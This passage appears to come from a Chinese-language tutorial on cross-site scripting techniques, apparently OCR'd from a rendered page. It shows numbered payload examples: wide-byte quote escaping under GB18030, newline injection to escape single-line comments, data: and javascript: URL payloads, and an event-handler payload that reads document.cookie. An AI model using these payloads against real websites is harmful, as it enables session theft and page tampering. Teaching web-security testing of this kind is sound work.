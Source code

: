 ```
?t=;alert("Barret李靖")
<script type="text/javascript">
    var t = query(t); // t = "<quot;;alert("Barret李靖")"
</script>

```

<p>上面可以看到 ";" 被编码了，观察页面编码：</p>

```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030">

```

<p>gbxxx系列编码，可以尝试宽字节：</p>

```
?t=%c0%22alert("Barret李靖")

```

<p><strong>8. 攻击单行注释</strong></p>
<p>URL对应的param中添加换行符（%0a）或者其他换行符。</p>

```
?t=%0aalert("Barret李靖")//

// init('id', "%0aalert("Barret李靖")//");

被解析成

// init('id', "
alert("Barret李靖")//");

```

<p><strong>9. url</strong></p>
<p>url中可以使用很多协议 http:// // javascript: vbscript: data:等等，利用这些属性，可以找到很多的空隙。</p>

```
<a href="data:text/html,<script>alert(" barret李靖")<="" script="">">XSS</a>

```

<p><strong>10. Flash跨域注入</strong></p>
<p>这个我不太熟悉，现在网页上Flash用的越来越少了，懒得继续看了。</p>
<p><strong>11. 利用事件</strong></p>

```
<iframe src="#" onmouseover="alert(document.cookie)"></iframe>

```

<p><strong>12. 利用标签</strong></p>

```
<table><td background="javascript:alert('xss')">

```
</td></table>
